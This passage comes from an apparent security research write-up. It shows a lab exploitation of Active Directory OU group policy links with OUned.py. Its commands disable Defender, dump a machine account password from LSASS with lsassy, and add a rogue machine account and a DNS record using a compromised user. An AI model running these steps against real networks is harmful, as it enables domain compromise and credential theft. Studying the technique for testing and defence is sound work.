 #### b. Exploitation using OUned.py

Running this attack in the lab environment, we will once again assume that the **naugustine** user was compromised and has **Manage Group Policy Links** (or **GenericWrite**) privileges over the **_ADMINS** Organizational Unit containing the domain administrator **adm-qroland**.

We will assume that the LDAP dummy domain controller was already set up, as well as the **OUNED$** machine account and the **ouned.corp.com** DNS record, since this was already demonstrated in a previous section.

Again, the process of creating the SMB dummy domain controller will not be explained in detail. The domain name of the resulting DC should be **corp.com**, the hostname **OUNED2**, and an SMB share should be created – we will name it **synacktiv**. Edit rights on the **synacktiv** SMB share will be provided for the **qroland** user from the SMB dummy domain. Finally, Defender will be disabled and the machine account password of the SMB dummy domain controller will also be reset, so that it is composed of printable characters.

_# On SMB dummy DC_

```plaintext
PS C:\> ipconfig
[...]
   IPv4 Address. . . . . . . . . . . : 192.168.126.206
[…]
PS C:\> ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).name
corp.com
PS C:\> hostname
OUNED2
PS C:\> New-SmbShare -Name "synacktiv" -Path "C:\Shared"
PS C:\> Grant-SmbShareAccess -Name "synacktiv" -AccountName "CORP.COM\qroland" -AccessRight Full
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true
PS C:\> Reset-ComputerMachinePassword
```

Just as for the LDAP dummy domain controller, the **OUNED2$** machine account will then be created, as well as the **ouned2.corp.com** DNS name. Note that it is necessary that the **OUNED2$** machine account is associated with a HOST SPN since we will use it to spoof an SMB server; impacket’s **addcomputer.py** script will by default create such an SPN when using the LDAPS method (but not when using SAMR).

_# On attacker machine_

```shell
$ lsassy -d 'corp.com' -u 'qroland' -p 'Password1!' 192.168.126.206      
[...]
corp.com\OUNED2$  [PWD] fDS*6gm=FwBesh+0+=W-w@9(WX "(xPU5.F0lQN;p;jhG\@s+vQ/`c35f]Uk7P[VI)FE.\wncO(&61UWWjA,Na(7LkbDDEj-Yq,Ht5cM,*,Y#rV.gKGAl=:b
[...]
$ export PASS2='fDS*6gm=FwBesh+0+=W-w@9(WX "(xPU5.F0lQN;p;jhG\@s+vQ/`c35f]Uk7P[VI)FE.\wncO(&61UWWjA,Na(7LkbDDEj-Yq,Ht5cM,*,Y#rV.gKGAl=:b'
$ python3 addcomputer.py -computer-name OUNED2 -method LDAPS -computer-pass $PASS2 'corp.com/naugustine:Password1'
[*] Successfully added machine account OUNED2$ with password  fDS*6gm=FwBesh+0+=W-w@9(WX "(xPU5.F0lQN;p;jhG\@s+vQ/`c35f]Uk7P[VI)FE.\wncO(&61UWWjA,Na(7LkbDDEj-Yq,Ht5cM,*,Y#rV.gKGAl=:b
$ python3 dnstool.py -u "CORP.COM"\\"naugustine" -p 'Password1' -r 'ouned2' -a add -d "192.168.123.16" "192.168.123.10"
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
